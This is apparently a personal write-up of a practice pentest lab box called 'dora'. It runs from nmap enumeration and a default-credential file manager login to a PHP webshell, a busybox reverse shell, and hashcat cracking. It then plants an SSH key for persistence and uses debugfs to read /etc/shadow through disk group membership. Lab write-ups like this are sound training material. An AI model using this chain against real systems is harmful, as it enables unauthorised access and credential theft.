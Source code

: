 ### Enumeration
```
IP=192.168.209.16
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
### Foothold
- 80
	- ![[Pasted image 20240705090442.png]]
	- Hit lets go
		- ![[Pasted image 20240705090515.png]]
		- We need the creds from:  wp-config.php
	- Directory Brute force
		- dirsearch -u http://$IP
			- /filemanager
				- ![[Pasted image 20240705090811.png]]
				- admin:admin  -  successful
					- ![[Pasted image 20240705090839.png]]
					- Upload php webshell
						- ![[Pasted image 20240705091212.png]]
						- Now we have CE
						- Used busy box rev shell
			- /license.txt
			- /readme.html
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
	- Users with console
		- dora
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
		- nothing
	- www-data@dora:/var/www/html/filemanager/config
		- .htusers.php
			- `dora:$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS`
			- hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
				- doraemon
				- su dora
					- doraemon
					- success
- dora
	- id
		- uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
	- sudo -l
		- can't run sudo
	- Persistance
		- cd ~
		- mkdir .ssh
		- Move id_rsa.pub to B
		- mv id_rsa.pub authorized_keys
		- ssh -i id_rsa dora@192.168.209.16
			- Success
	- disk
		- df -h
			- ![[Pasted image 20240705094130.png]]
		- debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
			- cat /etc/shadow
			- cat /etc/passwd
			- Put root line into separate file
			- unshadow root.passwd root.shadow > root.unshadow
			- hashcat -m 1800 -a 0 root.unshadow /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
				- explorer
### Credentials
- dora:doraemon
- root:explorer
### Lessons Learned
- Run a directory scan of the root directory of web server
- Check config files for hashes and passwords
- Disk group can read /etc/shadow and sometimes /root/.ssh
- Use unshadow to get root passwd
